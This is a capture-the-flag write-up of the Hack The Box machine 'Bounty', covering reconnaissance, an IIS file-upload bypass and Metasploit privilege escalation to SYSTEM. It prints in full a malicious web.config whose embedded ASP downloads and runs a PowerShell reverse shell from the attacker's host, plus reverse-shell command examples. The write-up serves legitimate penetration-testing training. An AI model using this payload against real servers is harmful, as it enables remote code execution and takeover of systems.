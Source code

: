 ```yaml
---
title:     "Hack The Box - Bounty"
tags: [windows,easy,file-upload-vuln,isi]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/1.png)

We are going to pwn Bounty from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/142>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP:
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/2.png)

Nothing interesting, lets run ``Gobuster``.

Gobuster Scan Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/09 19:03:45 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/transfer.aspx (Status: 200)
/uploadedfiles (Status: 301)
===============================================================
2020/03/09 19:10:48 Finished
===============================================================

```

``/transfer.aspx`` 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/3.png)

There is a file upload options so I guess we can upload a reverse shell here and access them in ``/uploadedfiles``

## Test:

I uploaded ``wolf.jpg`` and it Successfully Uploaded

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/4.png)

``/uploadedfiles/wolf.jpg``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/5.png)

So I tried uploading ``.aspx`` file and I get Invalid File.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/6.png)

I googled about ISI 7.5 exploits and found there is a RCE via uploading ``web.config``.

> Reference https://sethjackson.github.io/2018/10/27/rce-through-web-config-upload/

So I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get shell.

If we look at the Shell it gives us some of the examples.

```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
I copied one of the example and changed it to my IP and paste it in bottom of the file. <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/7.png)<br/>
This not only load the module but also the shell give me a callback.

Started python server.

``web.config``

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<% Response.write("-"&"->") %>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

<% Response.write("<!-"&"-") %>
-->
```

Uploaded ``web.config``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/8.png)

Now I need to visit ``10.10.10.93/uploadedfiles/web.config`` and I will get the shell.

``Status 200`` means it successfully downloaded to the box. And NC give me the shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/9.png)

I changed to Metasploit

``systeminfo``

```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          3/9/2020, 6:53:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,573 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,575 MB
Virtual Memory: In Use:    520 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
```

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

> A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

We can try ``local_exploit_suggester`` this will give us some suggestions to exploit. Before that we need to ``migrate`` process inorder to make it stable. So I won’t face any errors while using any exploit. 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/10.png)

Now Background the session and run ``local_exploit_suggester``.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/11.png)

It displayes a lot of vulnerable so I chose random one ``windows/local/ms10_092_schelevator``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bounty/12.png)

Got Authority\System